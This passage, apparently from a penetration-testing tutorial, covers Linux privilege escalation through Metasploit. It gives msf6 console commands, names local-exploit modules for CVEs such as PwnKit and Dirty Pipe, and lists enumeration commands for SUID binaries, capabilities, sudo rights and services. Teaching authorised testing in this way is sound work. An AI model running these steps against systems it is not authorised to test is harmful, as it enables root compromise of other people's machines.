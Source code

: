 msf6 exploit(linux/local/[exploit_name]) > set LPORT <port>
msf6 exploit(linux/local/[exploit_name]) > show options
msf6 exploit(linux/local/[exploit_name]) > check
msf6 exploit(linux/local/[exploit_name]) > exploit
```

### Common Linux Privilege Escalation Modules:

- `exploit/linux/local/cve_2021_4034_pwnkit_lpe` (Polkit pkexec vulnerability)
- `exploit/linux/local/cve_2021_3493_ebpf` (Ubuntu eBPF vulnerability)
- `exploit/linux/local/cve_2019_13272_linux` (Linux kernel before 5.1.17)
- `exploit/linux/local/overlayfs_priv_esc` (OverlayFS vulnerability)
- `exploit/linux/local/cve_2022_0847_dirtypipe` (Dirty Pipe vulnerability)
- `exploit/linux/local/cve_2022_2586_nft_object` (Linux netfilter vulnerability)

### SUID Exploitation

SUID (Set User ID) binaries run with the permissions of the owner rather than the executor, making them potential privilege escalation vectors.

```
meterpreter > shell
$ find / -perm -u=s -type f 2>/dev/null
```

Metasploit provides modules to exploit common SUID binaries:

```
msf6 > use exploit/linux/local/suid_executable_abuse
```

### Linux Capabilities Enumeration

Capabilities provide fine-grained access control for processes without requiring full root privileges.

```
meterpreter > shell
$ getcap -r / 2>/dev/null
```

### Sudo Misconfigurations

```
meterpreter > shell
$ sudo -l
```

If certain commands can be run with sudo without a password, Metasploit provides modules to exploit them:

```
msf6 > use exploit/linux/local/sudo_plugin_priv_esc
```

### Service Exploitation

Identify running services and their permissions:

```
meterpreter > shell
$ ps aux
$ ls -la /etc/init.d/
$ systemctl list-units --type=service
```

```